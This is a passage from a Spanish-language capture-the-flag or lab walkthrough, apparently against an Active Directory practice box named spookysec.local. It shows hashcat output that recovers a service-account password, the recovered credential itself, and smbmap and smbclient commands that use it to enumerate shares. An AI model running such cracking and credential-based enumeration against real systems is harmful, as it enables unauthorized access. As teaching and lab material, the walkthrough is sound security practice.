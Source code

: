 ```bash
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (password.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1249.9 kH/s (1.04ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8192/70188 (11.67%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 6144/70188 (8.75%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: horoscope -> whitey
Hardware.Mon.#1..: Util: 26%

Started: Tue Apr 29 20:23:38 2025
Stopped: Tue Apr 29 20:23:41 2025


```

### Resultado
Credencial recuperada: `svc-admin : management2005`

---

## Parte 5: Enumeración SMB y extracción de secretos
### Teoría
Muchos entornos permiten lectura en recursos compartidos sin control estricto. La exposición de credenciales en texto plano es un error de seguridad frecuente, especialmente cuando los shares contienen scripts, configuraciones o respaldos mal protegidos.
### Herramientas
```bash
smbmap -H 10.10.7.146 -u svc-admin -p management2005
smbclient //10.10.7.146/backup -U svc-admin
```
### Comandos y resultados exactos
#### Enumeración con `smbmap`:
```bash
smbmap -H 10.10.7.146 -u svc-admin -p management2005

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.7.146:445 Name: spookysec.local           Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        backup                                                  READ ONLY
```